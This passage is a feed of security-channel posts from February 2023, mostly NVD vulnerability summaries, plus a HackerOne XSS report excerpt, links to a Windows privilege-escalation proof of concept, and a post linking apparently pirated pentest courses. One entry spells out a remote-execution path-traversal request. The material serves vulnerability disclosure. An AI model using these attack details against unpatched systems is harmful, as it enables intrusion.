# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21794

<blockquote>
‼ CVE-2023-21794 ‼

Microsoft Edge (Chromium-based) Spoofing Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21797

<blockquote>
‼ CVE-2023-21797 ‼

Microsoft ODBC Driver Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23377

<blockquote>
‼ CVE-2023-23377 ‼

3D Builder Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21805

<blockquote>
‼ CVE-2023-21805 ‼

Windows MSHTML Platform Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21820

<blockquote>
‼ CVE-2023-21820 ‼

Windows Distributed File System (DFS) Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21806

<blockquote>
‼ CVE-2023-21806 ‼

Power BI Report Server Spoofing Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23378

<blockquote>
‼ CVE-2023-23378 ‼

Print 3D Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21801

<blockquote>
‼ CVE-2023-21801 ‼

Microsoft PostScript Printer Driver Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21710

<blockquote>
‼ CVE-2023-21710 ‼

Microsoft Exchange Server Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21695

<blockquote>
‼ CVE-2023-21695 ‼

Microsoft Protected Extensible Authentication Protocol (PEAP) Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21721

<blockquote>
‼ CVE-2023-21721 ‼

Microsoft OneNote Spoofing Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21690

<blockquote>
‼ CVE-2023-21690 ‼

Microsoft Protected Extensible Authentication Protocol (PEAP) Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21694

<blockquote>
‼ CVE-2023-21694 ‼

Windows Fax Service Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21528

<blockquote>
‼ CVE-2023-21528 ‼

Microsoft SQL Server Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21713

<blockquote>
‼ CVE-2023-21713 ‼

Microsoft SQL Server Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21706

<blockquote>
‼ CVE-2023-21706 ‼

Microsoft Exchange Server Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21704

<blockquote>
‼ CVE-2023-21704 ‼

Microsoft ODBC Driver for SQL Server Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21703

<blockquote>
‼ CVE-2023-21703 ‼

Azure Data Box Gateway Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21568

<blockquote>
‼ CVE-2023-21568 ‼

Microsoft SQL Server Integration Service (VS extension) Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21705

<blockquote>
‼ CVE-2023-21705 ‼

Microsoft SQL Server Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-14`

<blockquote>
HackerOne: HTML injection that may lead to XSS on HackerOne.com through H1 Triage Wizard Chrome Extension
https://vulners.com/hackerone/H1:1874260?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1874260?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1874260?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
To reproduce:  ensure you have the H1 Triage Wizard Chrome extension enabled visit https://hackerone.com/reports/1622449?subject&#61;security&amp;/bugs&#61;1 right-click the report, select &quot;View Triage Questionnaire (Beta)&quot; observe an HTML payload being injected  {F2173699} The payload is stored in  █████████. The contents of this file are dynamically loaded through the Chrome extension. The vulnerability is caused by the following code in the triage-extension-private repository: js buildTriageQuestionnaireModal &#61; (   modalElement,   triageQuestionnaireModalOptions ) &#61;&gt; {   let questionnaireResponses &#61;     triageQuestionnaireModalOptions.questionnaireResponses;   if (questionnaireResponses) {     modalElement.innerHTML &#61; triageQuestionnaireHTML       .replace(&quot;{{handle}}&quot;, triageQuestionnaireModalOptions.handle) // &lt;-- the handle here is taken from the subject parameter (i.e. &quot;security&quot;)       .replace(&quot;{{1}}&quot;, questionnaireResponses[1]) // &lt;-- the response to the questionnaire is interpolated without sanitizing it      …
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22932

<blockquote>
‼ CVE-2023-22932 ‼

In Splunk Enterprise 9.0 versions before 9.0.4, a View allows for Cross-Site Scripting (XSS) through the error message in a Base64-encoded image. The vulnerability affects instances with Splunk Web enabled. It does not affect Splunk Enterprise versions below 9.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22936

<blockquote>
‼ CVE-2023-22936 ‼

In Splunk Enterprise versions below 8.1.13, 8.2.10, and 9.0.4, the ‘search_listener’ parameter in a search allows for a blind server-side request forgery (SSRF) by an authenticated user. The initiator of the request cannot see the response without the presence of an additional vulnerability within the environment.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22933

<blockquote>
‼ CVE-2023-22933 ‼

In Splunk Enterprise versions below 8.1.13, 8.2.10, and 9.0.4, a View allows for Cross-Site Scripting (XSS) in an extensible mark-up language (XML) View through the ‘layoutPanel’ attribute in the ‘module’ tag’. The vulnerability affects instances with Splunk Web enabled.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-22564

<blockquote>
‼ CVE-2022-22564 ‼

Dell EMC Unity versions before 5.2.0.0.5.173 , use(es) broken cryptographic algorithm. A remote unauthenticated attacker could potentially exploit this vulnerability by performing MitM attacks and let attackers obtain sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-4286

<blockquote>
‼ CVE-2022-4286 ‼

A reflected cross-site scripting (XSS) vulnerability exists in System Diagnostics Manager of B&amp;R Automation Runtime versions &gt;&#61;3.00 and &lt;&#61;C4.93 that enables a remote attacker to execute arbitrary JavaScript in the context of the users browser session.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0827

<blockquote>
‼ CVE-2023-0827 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository pimcore/pimcore prior to 1.5.17.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24581

<blockquote>
‼ CVE-2023-24581 ‼

A vulnerability has been identified in Solid Edge SE2022 (All versions &lt; V2210Update12), Solid Edge SE2022 (All versions), Solid Edge SE2023 (All versions &lt; V2023Update2). The affected application contains a use-after-free vulnerability that could be triggered while parsing specially crafted STP files. An attacker could leverage this vulnerability to execute code in the context of the current process. (ZDI-CAN-19425)

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24187

<blockquote>
‼ CVE-2023-24187 ‼

An XML External Entity (XXE) vulnerability in ureport v2.2.9 allows attackers to execute arbitrary code via uploading a crafted XML file to /ureport/designer/saveReportFile.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0655

<blockquote>
‼ CVE-2023-0655 ‼

SonicWall Email Security contains a vulnerability that could permit a remote unauthenticated attacker access to an error page that includes sensitive information about users email addresses.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23859

<blockquote>
‼ CVE-2023-23859 ‼

SAP NetWeaver AS for ABAP and ABAP Platform - versions 740, 750, 751, 752, 753, 754, 755, 756, 757, 789, 790, allows an unauthenticated attacker to craft a malicious link, which when clicked by an unsuspecting user, can be used to read or modify some sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24529

<blockquote>
‼ CVE-2023-24529 ‼

Due to lack of proper input validation, BSP application (CRM_BSP_FRAME) - versions 700, 701, 702, 731, 740, 750, 751, 752, 75C, 75D, 75E, 75F, 75G, 75H, allow malicious inputs from untrusted sources, which can be leveraged by an attacker to execute a Reflected Cross-Site Scripting (XSS) attack. As a result, an attacker may be able to hijack a user session, read and modify some sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25614

<blockquote>
‼ CVE-2023-25614 ‼

SAP NetWeaver AS ABAP (BSP Framework) application - versions 700, 701, 702, 731, 740, 750, 751, 752, 753, 754, 755, 756, 757, allow an unauthenticated attacker to inject the code that can be executed by the application over the network. On successful exploitation it can gain access to the sensitive information which leads to a limited impact on the confidentiality and the integrity of the application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22376

<blockquote>
‼ CVE-2023-22376 ‼

** UNSUPPORTED WHEN ASSIGNED ** Reflected cross-site scripting vulnerability in Wired/Wireless LAN Pan/Tilt Network Camera CS-WMV02G all versions allows a remote unauthenticated attacker to inject arbitrary script to inject an arbitrary script. NOTE: This vulnerability only affects products that are no longer supported by the developer.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22375

<blockquote>
‼ CVE-2023-22375 ‼

** UNSUPPORTED WHEN ASSIGNED ** Cross-site request forgery (CSRF) vulnerability in Wired/Wireless LAN Pan/Tilt Network Camera CS-WMV02G all versions allows a remote unauthenticated attacker to hijack the authentication and conduct arbitrary operations by having a logged-in user to view a malicious page. NOTE: This vulnerability only affects products that are no longer supported by the developer.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23858

<blockquote>
‼ CVE-2023-23858 ‼

Due to insufficient input validation, SAP NetWeaver AS for ABAP and ABAP Platform - versions 740, 750, 751, 752, 753, 754, 755, 756, 757, 789, 790, allows an unauthenticated attacker to send a crafted URL to a user, and by clicking the URL, the tricked user accesses SAP and might be directed with the response to somewhere out-side SAP and enter sensitive data. This could cause a limited impact on confidentiality and integrity of the application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-14`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24525

<blockquote>
‼ CVE-2023-24525 ‼

SAP CRM WebClient UI - versions WEBCUIF 748, 800, 801, S4FND 102, 103, does not sufficiently encode user-controlled inputs, resulting in Cross-Site Scripting (XSS) vulnerability. On successful exploitation an authenticated attacker can cause limited impact on confidentiality of the application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45962

<blockquote>
‼ CVE-2022-45962 ‼

Open Solutions for Education, Inc openSIS Community Edition v8.0 and earlier is vulnerable to SQL Injection via CalendarModal.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24084

<blockquote>
‼ CVE-2023-24084 ‼

ChiKoi v1.0 was discovered to contain a SQL injection vulnerability via the load_file function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24086

<blockquote>
‼ CVE-2023-24086 ‼

SLIMS v9.5.2 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the component /customs/loan_by_class.php?reportView.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25241

<blockquote>
‼ CVE-2023-25241 ‼

bgERP v22.31 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the Search parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24648

<blockquote>
‼ CVE-2023-24648 ‼

Zstore v6.6.0 was discovered to contain a cross-site scripting (XSS) vulnerability via the component /index.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25572

<blockquote>
‼ CVE-2023-25572 ‼

react-admin is a frontend framework for building browser applications on top of REST/GraphQL APIs. react-admin prior to versions 3.19.12 and 4.7.6, along with ra-ui-materialui prior to 3.19.12 and 4.7.6, are vulnerable to cross-site scripting. All React applications built with react-admin and using the `&lt;RichTextField&gt;` are affected. `&lt;RichTextField&gt;` outputs the field value using `dangerouslySetInnerHTML` without client-side sanitization. If the data isn't sanitized server-side, this opens a possible cross-site scripting (XSS) attack. Versions 3.19.12 and 4.7.6 now use `DOMPurify` to escape the HTML before outputting it with React and `dangerouslySetInnerHTML`. Users who already sanitize HTML data server-side do not need to upgrade. As a workaround, users may replace the `&lt;RichTextField&gt;` by a custom field doing sanitization by hand.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24647

<blockquote>
‼ CVE-2023-24647 ‼

Food Ordering System v2.0 was discovered to contain a SQL injection vulnerability via the email parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25162

<blockquote>
‼ CVE-2023-25162 ‼

Nextcloud Server is the file server software for Nextcloud, a self-hosted productivity platform. Nextcloud Server prior to 24.0.8 and 23.0.12 and Nextcloud Enterprise server prior to 24.0.8 and 23.0.12 are vulnerable to server-side request forgery (SSRF). Attackers can leverage enclosed alphanumeric payloads to bypass IP filters and gain SSRF, which would allow an attacker to read crucial metadata if the server is hosted on the AWS platform. Nextcloud Server 24.0.8 and 23.0.2 and Nextcloud Enterprise Server 24.0.8 and 23.0.12 contain a patch for this issue. No known workarounds are available.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45285

<blockquote>
‼ CVE-2022-45285 ‼

Vsourz Digital Advanced Contact form 7 DB Versions 1.7.2 and 1.9.1 is vulnerable to Cross Site Scripting (XSS).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48110

<blockquote>
‼ CVE-2022-48110 ‼

CKSource CKEditor5 35.4.0 was discovered to contain a cross-site scripting (XSS) vulnerability via the Full Featured CKEditor5 widget.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0810

<blockquote>
‼ CVE-2023-0810 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository btcpayserver/btcpayserver prior to 1.7.11.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23551

<blockquote>
‼ CVE-2023-23551 ‼

Control By Web X-600M devices run Lua scripts and are vulnerable to code injection, which could allow an attacker to remotely execute arbitrary code.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23948

<blockquote>
‼ CVE-2023-23948 ‼

The ownCloud Android app allows ownCloud users to access, share, and edit files and folders. Version 2.21.1 of the ownCloud Android app is vulnerable to SQL injection in `FileContentProvider.kt`. This issue can lead to information disclosure. Two databases, `filelist` and `owncloud_database`, are affected. In version 3.0, the `filelist` database was deprecated. However, injections affecting `owncloud_database` remain relevant as of version 3.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22854

<blockquote>
‼ CVE-2023-22854 ‼

The ccmweb component of Mitel MiContact Center Business server 9.2.2.0 through 9.4.1.0 could allow an unauthenticated attacker to download arbitrary files, due to insufficient restriction of URL parameters. A successful exploit could allow access to sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# proxy_bar
`2023-02-13`

* https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc

<blockquote>
Windows LPE via StorSvc
download
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-4445

<blockquote>
‼ CVE-2022-4445 ‼

The FL3R FeelBox WordPress plugin through 8.1 does not properly sanitise and escape a parameter before using it in a SQL statement via an AJAX action available to unauthenticated users, leading to a SQL injection.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45725

<blockquote>
‼ CVE-2022-45725 ‼

Improper Input Validation in Comfast router CF-WR6110N V2.3.1 allows a remote attacker on the same network to execute arbitrary code on the target via an HTTP POST request

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-13`

<blockquote>
Global Infotech CMS 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/global-infotech-cms-10-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/global-infotech-cms-10-sql-injection.html">
https://exploit.kitploit.com/2023/02/global-infotech-cms-10-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-13`

<blockquote>
Global Infotech CMS 1.0 SQL Injection
https://packetstormsecurity.com/files/170976/globalinfotechcms10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/170976/globalinfotechcms10-sql.txt">
https://packetstormsecurity.com/files/170976/globalinfotechcms10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# freedomf0x
`2023-02-13`

<blockquote>
Windows &#35;LPE via StorSvc service

&#35;PoC: https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc
</blockquote>

---

# RalfHackerChannel
`2023-02-13`

<blockquote>
Windows LPE via StorSvc service

PoC: https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc

&#35;lpe &#35;pentest &#35;redteam
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc">
https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc
</a>
<blockquote>
Collection of PoC and offensive techniques used by the BlackArrow Red Team - redteam-research/LPE via StorSvc at master · blackarrowsec/redteam-research
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0808

<blockquote>
‼ CVE-2023-0808 ‼

A vulnerability was found in Deye/Revolt/Bosswerk Inverter MW3_15U_5406_1.47/MW3_15U_5406_1.471. It has been rated as problematic. This issue affects some unknown processing of the component Access Point Setting Handler. The manipulation with the input 12345678 leads to use of hard-coded password. It is possible to launch the attack on the physical device. The exploit has been disclosed to the public and may be used. Upgrading to version MW3_16U_5406_1.53 is able to address this issue. It is recommended to upgrade the affected component. The identifier VDB-220769 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22360

<blockquote>
‼ CVE-2023-22360 ‼

Use-after free vulnerability exists in Screen Creator Advance 2 Ver.0.1.1.4 Build01 and earlier due to lack of error handling process even when an error was detected. Having a user of Screen Creator Advance 2 to open a specially crafted project file may lead to information disclosure and/or arbitrary code execution.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48323

<blockquote>
‼ CVE-2022-48323 ‼

Sunlogin Sunflower Simplified (aka Sunflower Simple and Personal) 1.0.1.43315 is vulnerable to a path traversal issue. A remote and unauthenticated attacker can execute arbitrary programs on the victim host by sending a crafted HTTP request, as demonstrated by /check?cmd&#61;ping../ followed by the pathname of the powershell.exe program.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-13`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22367

<blockquote>
‼ CVE-2023-22367 ‼

Ichiran App for iOS versions prior to 3.1.0 and Ichiran App for Android versions prior to 3.1.0 improperly verify server certificates, which may allow a remote unauthenticated attacker to eavesdrop on an encrypted communication via a man-in-the-middle attack.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0788

<blockquote>
‼ CVE-2023-0788 ‼

Code Injection in GitHub repository thorsten/phpmyfaq prior to 3.1.11.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0791

<blockquote>
‼ CVE-2023-0791 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository thorsten/phpmyfaq prior to 3.1.11.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0792

<blockquote>
‼ CVE-2023-0792 ‼

Code Injection in GitHub repository thorsten/phpmyfaq prior to 3.1.11.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0786

<blockquote>
‼ CVE-2023-0786 ‼

Cross-site Scripting (XSS) - Generic in GitHub repository thorsten/phpmyfaq prior to 3.1.11.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0794

<blockquote>
‼ CVE-2023-0794 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository thorsten/phpmyfaq prior to 3.1.11.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0787

<blockquote>
‼ CVE-2023-0787 ‼

Cross-site Scripting (XSS) - Generic in GitHub repository thorsten/phpmyfaq prior to 3.1.11.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2023-02-12`

* https://mega.nz/folder/FMI3RaYJ#5DBQZm20ztBcVW5FNJ4Jug
* https://www.udemy.com/course/pentest-handbook-sql-injection-to-shell-uploading/
* https://www.udemy.com/course/learn-how-to-build-own-virtual-penetration-testing-lab/
* https://github.com/arch3rPro/PentestTools
* https://t.me/leakers_Squad/1841

<blockquote>
🔵🔵About Penetration Testing 🟢🟢

Penetration testing is also known as pen testing or ethical hacking. It describes the intentional launching of simulated cyberattacks that seek out exploitable vulnerabilities in computer systems, networks, websites, and applications

❤️‍🔥Following are the important modules of pentesting −

⬛️Black Box Penetration Testing

⬜️White Box Penetration Testing

🔲Grey Box Penetration Testing

❤️‍🔥Types 

🍎External Network Penetration Testing. 

🍎Internal Network Penetration Testing.

🍎Social Engineering Testing. 

🍎Physical Penetration Testing. 

🍎Wireless Penetration Testing. 

🍎Application Penetration Testing.

❤️‍🔥Basic Course 

❤️‍🔥Pentest Handbook: SQL Injection To Shell Uploading

🟢Pentesting Lab Preparation

📋Pentesting Tools

🐉REGARDS : @MajorKali

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0784

<blockquote>
‼ CVE-2023-0784 ‼

A vulnerability classified as critical has been found in SourceCodester Best Online News Portal 1.0. Affected is an unknown function of the component Login Page. The manipulation of the argument username leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-220644.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-33216

<blockquote>
‼ CVE-2022-33216 ‼

Transient Denial-of-service in Automotive due to improper input validation while parsing ELF file.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45086

<blockquote>
‼ CVE-2022-45086 ‼

Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') vulnerability in Group Arge Energy and Control Systems Smartpower Web allows Cross-Site Scripting (XSS).This issue affects Smartpower Web: before 23.01.01.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45090

<blockquote>
‼ CVE-2022-45090 ‼

Improper Input Validation vulnerability in Group Arge Energy and Control Systems Smartpower Web allows SQL Injection.This issue affects Smartpower Web: before 23.01.01.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-12`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-4557

<blockquote>
